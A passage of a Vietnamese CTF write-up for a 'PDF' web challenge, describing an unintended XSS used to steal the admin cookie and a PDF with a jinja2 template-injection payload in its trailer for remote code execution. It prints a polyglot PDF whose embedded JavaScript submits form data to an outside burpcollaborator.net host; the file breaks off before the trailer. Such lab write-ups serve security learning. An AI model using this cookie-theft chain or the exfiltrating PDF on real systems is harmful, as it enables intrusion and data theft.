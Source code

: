 ## PDF 
Sau khi tạo được product, ta thấy rằng tại trang hiển thị product có một XSS khá rõ ràng tồn, cái này cùng với Hogmail là unintended của author

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/346751a3-157a-41da-b67d-142b48d161b5)

Từ đó ta có thể XSS để lấy cookie của admin, dùng account admin upload lên một PDF chứa template string execute OS command để RCE, vấn đề ở đây là ta sẽ chèn payload vào phần nào trong PDF. Nếu như các bạn để ý thì các PDF được gen từ các phần mềm như PDFlatex thì phần cuối của pdf sẽ có một dòng "created by ...." và tất nhiên là nó không hiển thị trên nội dung PDF, do đó mình chọn cách chèn payload vào phần `trailer` của pdf. Ngoài ra thì file PDF cũng không được có unicode vì tí nữa vào jinja2 xử lý sẽ bị lỗi. Cách làm của mình là đầu tiên mình lên lụm một cái polyglot của portswigger research về sau đó thêm payload tại `trailer` là được
https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/jsPDF/chrome/pdf-ssrf/output.pdf

Sau khi ghi đè file template thì do cache nên ta refresh lại vài lần thì flag sẽ hiện ra. File pdf:
```
%PDF-1.3
%1234
3 0 obj
<</Type /Page
/Parent 1 0 R
/Resources 2 0 R
/MediaBox [0 0 595.2799999999999727 841.8899999999999864]
/Annots [
<</Type /Annot /Subtype /Link /Rect [0. 813.5435433070865656 566.9291338582677326 246.614409448818833] /Border [0 0 0] /A <</S /URI /URI (#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Tx/T(Abc)/V(blah)>>/A<</S/JavaScript/JS(
app.alert(1);
this.submitForm('https://aiws4u6uubgfdag94xvc5wbrfilc91.burpcollaborator.net', false, false, ['Abc']);
)/() >> >>
]
/Contents 4 0 R
>>
endobj
4 0 obj
<<
/Length 126
>>
stream
0.5670000000000001 w
0 G
BT
/F1 16 Tf
18.3999999999999986 TL
0 g
56.6929133858267775 785.1970866141732586 Td
(Test text) Tj
ET
endstream
endobj
1 0 obj
<</Type /Pages
/Kids [3 0 R ]
/Count 1
>>
endobj
5 0 obj
<<
/Type /Font
/BaseFont /Helvetica
```